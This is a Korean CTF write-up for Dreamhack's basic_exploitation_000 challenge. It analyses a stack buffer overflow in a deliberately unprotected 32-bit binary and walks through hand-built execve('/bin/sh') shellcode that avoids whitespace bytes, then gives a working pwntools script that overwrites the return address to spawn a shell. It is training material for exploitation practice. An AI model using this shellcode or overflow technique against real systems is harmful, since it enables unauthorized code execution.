 ## 📍basic_exploitation_000

```
이 문제는 서버에서 작동하고 있는 서비스(basic_exploitation_000)의 바이너리와 소스 코드가 주어집니다.  
프로그램의 취약점을 찾고 익스플로잇해 셸을 획득한 후, "flag" 파일을 읽으세요.
```

```
Ubuntu 16.04
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

### 소스코드
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
	
    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x80];
	
    initialize();
    
    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);
	
    return 0;
}
```

30초가 지나면 `alarm_handler`를 호출하고 프로그램이 종료된다.

버퍼의 시작 주소를 출력한다.
버퍼의 크기는 0x80 = 128바이트이나, 최대 141바이트까지 입력을 허용한다.
즉 13바이트를 overwrite할 수 있다.

#### 풀이

문제에서 셸을 획득하라고 하는데, 셸을 실행할 수 있는 함수가 코드에 없기 때문에 셸코드를 사용해야 한다.

문제는 32bit 아키텍처를 사용하므로, 리턴 주소는 `ebp+0x4`가 될 것이다. (`0x4` = SFP의 크기)
`scanf` 함수의 버퍼 시작 주소와 `ebp+0x4` 사이의 거리를 알아낸다.

버퍼에는 셸코드부터, 남은 바이트는 더미 데이터로 채운다.
리턴 주소에는 앞서 입력한 셸코드의 주소가 들어가도록 해 함수가 리턴되면 셸코드가 실행되도록 한다.


### 바이너리 분석

![](Attachments/AE179B09-E38A-4656-B42D-4A4B3AD02A5F.png)

`scanf`에서 사용하는 버퍼의 시작 주소는 `ebp-0x80`이다.
따라서 `ebp-0x80`부터 `0x84`, 즉 132바이트만큼을 더미 데이터로 채우면 된다.


### 익스플로잇
#### scanf() 함수로 입력을 받는 경우 shellcode를 작성할 때 주의할 점
- 입력값은 버퍼에 저장되는데, `scanf()` 함수는 공백, 탭, 개행 3가지가 나오기 전까지 입력 버퍼에 있는 값을 가져오는 함수
	- 공백, 탭, 개행
		➡️ `0x09`(Horizontal Tab), `0x0A`(Line Feed), `0x0B`(Vertical Tab), `0x0C`(Form Feed), `0x0D`(Carriage Return), `0x20`(Space)
	- **문제**: 32bit 아키텍처에서 `execve()` 시스템 콜 값 = `0x0B`
		- `0x0B`는 아스키 코드에서 Vertical Tab이므로, `0x0B` 값 뒤에 있는 코드들은 무시됨
	- **해결**: 작성한 셸코드가 `scanf()` 함수로 입력받는 경우
		- `0x09`, `0x0A`, `0x0B`, `0x0C`, `0x0D`, `0x20` 값이 셸코드에 포함되지 않도록 작성해야 함

#### 32bit 아키텍처의 execve 셸코드
##### "/bin/sh" 문자열의 리틀 엔디안 값
- `/bin/sh` = `2F 62 69 6E 2F 73 68`
- 32bit 아키텍처이므로, 4바이트씩 나눠서 스택에 push한다.
- 1번째 블록: /sh = `68 73 2F`
- 2번째 블록: /bin = `6E 69 62 2F`

##### 셸 코드
```
section .text
global _start

_start:
	xor eax, eax
	push eax
	push 0x68732F       ; /sh
	push 0x6E69622F     ; /bin
	mov ebx, esp        ; ebx = "/bin/sh"
	xor ecx, ecx
	xor edx, edx
	mov al, 0x8
	inc al
	inc al
	inc al
	int 0x80
```
- `ebx`에 실행하고자 하는 바이너리의 경로를 적어준다.
- `ecx`, `edx`에는 각각 프로그램의 인자 포인터 배열과 환경변수 포인터 배열을 적는데, 지금은 `/bin/sh`만 실행하면 되므로 0으로 만든다.
- `eax`에 시스템 콜 번호를 넣어주는데, `0x0b`는 Vertical Tab이므로 바로 넣을 수 없고, `0x0a`, `0x09`도 넣을 수 없으므로, `0x08`에서 시작해서 1씩 증가시켜 `0x0b`를 만든다.
	- `al`: `eax` 레지스터의 하위 16비트
- `int 0x80`: 프로세스가 커널에 시스템 콜을 요청한다.

##### 바이너리 추출
1. `vi execve.asm`: 셸코드 작성 후 저장
2. `nasm -f elf execve.asm`: 오브젝트 파일 생성
3. `objdump -d execve.o`: 확인 ![](Attachments/0319C5E3-7E77-4C27-B600-CCE13BB3B8FC.png)
4. `objcopy --dump-section .text=shellcode.bin execve.o`: 바이너리 파일로 변환
5. `xxd -p shellcode.bin`: 바이너리에서 hexdump 값 뽑기![](Attachments/F03271C2-D8C3-4E9C-8A40-3AFB4CACC9A3.png)

위를 셸코드 형식으로 작성한다.

`\x31\xc0\x50\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80`

#### pwntools를 이용한 익스플로잇 코드

```python
from pwn import *

p = remote("host3.dreamhack.games", 8235)
p.recvuntil("buf = (")

buf_addr = int(p.recv(10), 16)

shellcode = b'\x31\xc0\x50\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80'
payload = shellcode + b'a'*(0x84 - len(shellcode)) + p32(buf_addr)

p.send(payload)
p.interactive()
```

![](Attachments/5AB8D97B-7853-40AE-BDDF-E21425429BAF.png)

30초 제한시간이 있다는 걸 까먹고 코드를 계속 고치면서 삽질했다...

🚩